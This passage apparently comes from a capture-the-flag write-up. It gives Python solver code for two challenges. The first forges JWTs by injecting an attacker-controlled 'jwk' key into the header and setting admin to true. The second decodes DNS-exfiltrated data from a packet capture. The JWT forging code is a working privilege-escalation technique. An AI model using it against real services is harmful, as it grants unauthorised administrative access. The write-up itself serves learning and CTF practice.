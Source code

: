 ```py
def server_solver(question):
    decoded_payload = jwt.decode(question, options={"verify_signature": False})
    decoded_header = jwt.get_unverified_header(question)

    decoded_header['jwk']['e'] = _encode64Int(public_key.public_numbers().e)
    decoded_header['jwk']['n'] = _encode64Int(public_key.public_numbers().n)
    decoded_payload['admin'] = "true"
    jwt_token = jwt.encode(decoded_payload, private_key, algorithm="RS256", headers=decoded_header)
```
### respectively approach:
```py
def server_solver(question):
    payload = jwt.decode(question, options={"verify_signature": False}, algorithms=["RS256"])
    payload['admin'] = "true"

    private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048,
    )

    # Serialize the private key to PEM format
    pem_private_key = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
    )

    # Generate the public key from the private key
    public_key = private_key.public_key()

    # Serialize the public key to PEM format
    pem_public_key = public_key.public_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PublicFormat.SubjectPublicKeyInfo,
    )

    jwk_public_key = jwk.JWK.from_pem(pem_public_key)

    new_token = jwt.encode(payload, key=pem_private_key, algorithm='RS256', headers={'jwk': jwk_public_key,
                                                                                     'kid': jwk_public_key["kid"]})

    return new_token
```
## PCAP
giving a pcap file, and you know that the server was DNS exfilterated from a specific IP you need to get what information was leaked.
just filter the packets with the IP again decode the subdomains with base64 and that's it.
### code of duty approach:
```py
def pcap_solver(question):
    sol = {}
    # Decode the Base64-encoded pcap file
    pcap_data = base64.b64decode(question)
    # Parse the packets using scapy
    packets = rdpcap(BytesIO(pcap_data))
    dns_packets = filter(lambda pkt: DNS in pkt and pkt[IP].dst == '188.68.45.12', packets)
    for pkt in dns_packets:
        query = pkt[DNSQR].qname.decode()
        splited = query.split(".")
```